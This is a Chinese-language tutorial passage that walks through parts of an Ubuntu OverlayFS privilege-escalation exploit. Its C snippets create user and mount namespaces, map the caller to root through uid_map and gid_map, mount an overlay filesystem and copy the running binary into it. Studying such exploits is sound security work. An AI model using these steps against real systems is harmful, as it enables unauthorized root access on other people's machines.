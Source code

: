 ```
if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");
```

然后获取`uid`和`gid`,并修改相应文件进行映射

```
writefile("/proc/self/setgroups", "deny");
    uid_t uid = getuid();
    gid_t gid = getgid();

    sprintf(buf, "0 %d 1", uid);
    writefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    writefile("/proc/self/gid_map", buf);
```

这步是必须的,如下所示

```
$ id
uid=1000(eki) gid=1001(eki) groups=1001(eki)
$ unshare --user /bin/bash
nobody@EDI:/root$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```

在新的`user namespace`中，当前用户变成了`nobody`<br>
我们还需要映射父`user namespace`的`user ID`和`group ID`到子`user namespace`中来，这一步是必须的，因为这样系统才能控制一个`user namespace`里的用户在其他`user namespace`中的权限。

映射`ID`的方法就是添加映射信息到`/proc/PID/uid_map`和 `/proc/PID/gid_map`(这里的 PID 是新 user namespace 中的进程 ID，刚开始时这两个文件都是空的)文件中。

文件配置信息的格式如下：

```
ID-inside-ns ID-outside-ns length
```

在这里就是

```
sprintf(buf, "0 %d 1", uid);
    writefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    writefile("/proc/self/gid_map", buf);
```

其中`writefile`函数就是向对应file中写入第二个参数中的字符串，实现后面完整代码

然后挂载overlay文件系统，根据之前的分析，在`Ubuntu`中用户是有权限挂载的

```
#define BIN_MERGE   DIR_MERGE "/magic"
    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    copyfile("/proc/self/exe", BIN_MERGE, 0777);
```
